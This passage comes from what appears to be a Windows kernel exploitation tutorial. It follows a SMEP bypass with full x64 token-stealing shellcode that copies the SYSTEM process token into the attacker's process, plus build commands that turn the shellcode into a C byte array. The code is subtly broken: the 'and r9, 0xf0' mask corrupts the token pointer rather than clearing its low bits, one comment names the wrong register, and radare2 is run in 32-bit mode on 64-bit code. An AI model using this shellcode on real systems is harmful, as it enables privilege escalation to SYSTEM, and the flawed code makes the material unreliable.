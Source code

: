 We can see that by setting a value that makes more sense we can disable SMEP & execute our NOPs! Now we need kernel shellcode that will somehow let us elevate privileges without causing a BSOD.

## Kernel Shellcode

For this exploit, we are going to go with a simple token stealing payload. Every process has a token associated that defines its privileges. A pointer to this token is saved in the EPROCESS structure:

```
0: kd> dt nt!_EPROCESS
...
+0x440 UniqueProcessId      : Ptr64 Void
+0x448 ActiveProcessLinks   : _LIST_ENTRY
...
+0x4b8 Token                : _EX_FAST_REF
...
```

If we can read this pointer & copy it over the one from our process, we get full SYSTEM privileges. Essentially the shellcode will find our EPROCESS and save a pointer to it. Then it will walk ActiveProcessLinks (which is a linked list of processes) until it finds a SYSTEM process and copies the token pointer from that one over the one from our process.

```
[BITS 64]
start:
  mov rax, [gs:0x188]       ; KPCRB.CurrentThread (_KTHREAD)
  mov rax, [rax + 0xb8]     ; APCState.Process (current _EPROCESS)
  mov r8, rax               ; Store current _EPROCESS ptr in RBX

loop:
  mov r8, [r8 + 0x448]      ; ActiveProcessLinks
  sub r8, 0x448             ; Go back to start of _EPROCESS
  mov r9, [r8 + 0x440]      ; UniqueProcessId (PID)
  cmp r9, 4                 ; SYSTEM PID? 
  jnz loop                  ; Loop until PID == 4

replace:
  mov r9, [r8 + 0x4b8]      ; Get SYSTEM token
  and r9, 0xf0              ; Clear low 4 bits of _EX_FAST_REF structure
  mov [rax + 0x4b8], r9     ; Copy SYSTEM token to current process
  
  xor rax, rax
  ret
```

Note that depending on which operating system you are targeting these offsets will change and you have to find them via WinDBG. To compile the shellcode, we can use NASM/radare2:

```
nasm shellcode.asm -o shellcode.bin -f bin
radare2 -b 32 -c 'pc' ./shellcode.bin
#define _BUFFER_SIZE 256
const uint8_t buffer[_BUFFER_SIZE] = {
  0x65, 0x48, 0x8b, 0x04, 0x25, 0x88, 0x01, 0x00, 0x00, 0x48,
  ...
};
```
